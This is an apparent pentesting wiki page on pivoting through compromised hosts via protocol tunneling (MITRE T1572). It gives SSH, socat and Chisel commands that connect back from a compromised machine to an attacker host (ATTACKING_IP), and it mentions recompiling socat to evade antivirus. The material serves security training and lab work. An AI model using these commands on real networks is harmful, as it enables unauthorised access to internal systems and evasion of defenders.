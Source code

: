 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - ID T1572 
---
```

# Port Forwarding

## Theory
Port Forwarding, consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others.

## Practice
### SSH tunneling
SSH port forwarding is a mechanism in SSH for tunneling application ports from the client machine to the server machine, or vice versa.  
Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:  

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```
{% tabs %}
{% tab title="SSH Local-Forwarding" %}
**Local port forwarding** is used to **forward a port from the client machine to the server machine**. Basically, the SSH client listens for connections on a configured port, and when it receives a connection, it tunnels the connection to an SSH server. The server connects to a configurated destination port, possibly on a different machine than the SSH server.  
  
This example opens a connection to the jump-server.net, and forwards any connection to port 80 on the local machine to port 80 on intra.example.com.
```bash
veresk@kali$ ssh -L *:80:intra.example.com:80 user@jump-server.net -fN
```
{% endtab %}

{% tab title="SSH Remote-Forwarding" %}
**Remote port forwarding** allows a client machine of an SSH connection to redirect one of its ports to a port on the server, or to redirect a port of a network machine from the SSH server to a port local to the server.  
  
On a compromised computer (jump-server), we can connect back to the attackbox with a reverse port forward using the following command, this example produce the same result as previously seen with Local-Forwarding. Any connection on `ATTACKING_IP:8000` will be redirected on `intra.example.com:80`

```bash
PC> ssh -R 8000:intra.example.com:80 tunneluser@ATTACKING_IP -fN
```

In newer versions of the SSH client, it is also possible to create a **reverse proxy** (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it: 
```bash
ssh -R 9090 tunneluser@ATTACKING_IP -fN
```
{% endtab %}
{% endtabs %}

### SOCAT
We can use static binaries of socat to pivot, they are easy to find for both Linux and Windows. 
{% hint style="danger" %}
Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required.
{% endhint %} 

{% tabs %}
{% tab title="Forward" %}
The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. 
```bash
PC> ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```
{% endtab %}

{% tab title="Reverse" %}
First of all, on our own attacking machine, we issue the following command:
```bash
v4resk@kali$ ./socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
```bash
PC> ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```
Now throught `localhost:8000` we can access `172.16.0.10:80`
```bash
#Example
PC> ./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```
{% endtab %}
{% endtabs %}


### CHISEL
[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided).  

{% tabs %}
{% tab title="Reverse Proxy" %}
We can do a Reverse Proxy with Chisel. This connects back from a compromised server to a listener waiting on our attacking machine: 
```bash
v4resk@kali$ ./chisel server -p LISTEN_PORT --reverse &
```
On the compromised host, we would use the following command:
```bash
www-data@pwned.lab$ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```
{% endtab %}
{% tab title="Forward Proxy" %}
We can do a Forward Proxy with Chisel
```bash
v4resk@kali$ ./chisel client TARGET_IP:LISTEN_PORT LOCAL_PROXY_PORT:socks
```
On the compromised host, we would use the following command:
```bash
www-data@pwned.lab$ ./chisel server -p LISTEN_PORT --socks5
```
{% endtab %}
{% tab title="ProxyChain" %}
A little reminder on how to use the proxy with ProxyChain. To use it you just have to add the following line to `/etc/proxychains.conf`:
```bash
socks5 127.0.0.1 1080
```

{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1572/" %}
{% embed url="https://podalirius.net/en/articles/ssh-port-forwarding/" %}
{% embed url="https://tryhackme.com/room/wreath"%}



